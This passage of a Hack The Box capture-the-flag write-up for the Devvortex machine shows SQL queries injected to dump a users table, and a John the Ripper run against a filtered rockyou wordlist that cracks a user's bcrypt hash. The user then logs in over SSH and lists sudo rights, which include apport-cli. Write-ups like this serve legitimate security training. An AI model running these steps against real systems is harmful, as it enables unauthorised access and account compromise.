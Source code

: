 First, we want to check which tables are present in the DB. To do that we will inject the above script with this SQL query: `SHOW TABLES;`.

![image](https://github.com/danagold404/Hack-The-Box-Writeups/assets/81072283/047cf695-0b80-4c6f-89f9-e5c9ca888e8b)


Now, we will read the contents of tables we think are relevent, using `SELECT * FROM <TABLE NAME>;` until we found a relevant one - `sd4fg_users`!

![image](https://github.com/danagold404/Hack-The-Box-Writeups/assets/81072283/b72f4488-6d18-4184-8151-e557e015c5be)

# Get User Flag
We found a password hash for the user `logan`! Lets use **John The Ripper** to get the password. But first, we remeber something we saw on the website - there is a **minimum requirement for a valid password** to contain at least 12 characters. We can use this to filter `rockyou.txt` and make the hash cracking process quicker! We can filter `rockyou.txt` using this command:

```bash
cat /usr/share/wordlists/rockyou.txt | grep -E '^.{12,}$' > filtered-rockyou.txt
```

Lets crack the hashes using **John**:

```bash
┌─[user@parrot]─[~/Documents/tmp/devvortex]
└──╼ $john --wordlist=filtered-rockyou.txt crack.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD>    (?)
1g 0:00:00:00 DONE (2023-11-28 17:03) 4.000g/s 144.0p/s 144.0c/s 144.0C/s tequieromucho..highschoolmusical
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We can now SSH to tharget and connect as user `logan`, that has the user flag in his home folder!

```bash
logan@devvortex:~$ ls -la
total 28
drwxr-xr-x 3 logan logan 4096 Nov 21 11:04 .
drwxr-xr-x 3 root  root  4096 Sep 26 19:16 ..
lrwxrwxrwx 1 root  root     9 Oct 26 14:58 .bash_history -> /dev/null
-rw-r--r-- 1 logan logan  220 Sep 26 19:16 .bash_logout
-rw-r--r-- 1 logan logan 3771 Sep 26 19:16 .bashrc
drwx------ 2 logan logan 4096 Oct 26 15:12 .cache
-rw-r--r-- 1 logan logan  807 Sep 26 19:16 .profile
-rw-r----- 1 root  logan   33 Nov 28 15:00 user.txt
```

# Privesc to Root
The first thing we will be checking is `sudo -l`:
```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
